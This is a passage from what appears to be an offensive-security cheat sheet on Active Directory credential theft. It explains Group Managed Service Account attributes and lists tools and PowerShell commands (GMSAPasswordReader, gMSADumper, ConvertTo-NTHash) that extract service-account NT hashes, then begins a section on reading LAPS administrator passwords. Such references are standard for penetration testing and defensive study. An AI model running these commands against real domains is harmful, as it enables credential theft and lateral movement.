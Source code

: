 > User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically changed.

#### GMSA Attributes in the Active Directory 
* `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`) - stores the security principals that can access the GMSA password.
* `msds-ManagedPassword` - This attribute contains a BLOB with password information for group-managed service accounts.
* `msDS-ManagedPasswordId` - This constructed attribute contains the key identifier for the current managed password data for a group MSA.
* `msDS-ManagedPasswordInterval` - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.


#### Extract NT hash from the Active Directory

* [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#)
  ```ps1
  # https://github.com/rvazarkar/GMSAPasswordReader
  GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
  ```

* [gMSADumper (Python)](https://github.com/micahvandeusen/gMSADumper)
   ```powershell
  # https://github.com/micahvandeusen/gMSADumper
  python3 gMSADumper.py -u User -p Password1 -d domain.local
  ```
  
* Active Directory Powershell
  ```ps1
  $gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
  $blob = $gmsa.'msDS-ManagedPassword'
  $mp = ConvertFrom-ADManagedPasswordBlob $blob
  $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
  ```

* [gMSA_Permissions_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa_permissions_collection-ps1) based on Active Directory PowerShell module

### Reading LAPS Password

> Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure. 

#### Determine if LAPS is installed

```ps1
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

#### Extract LAPS password
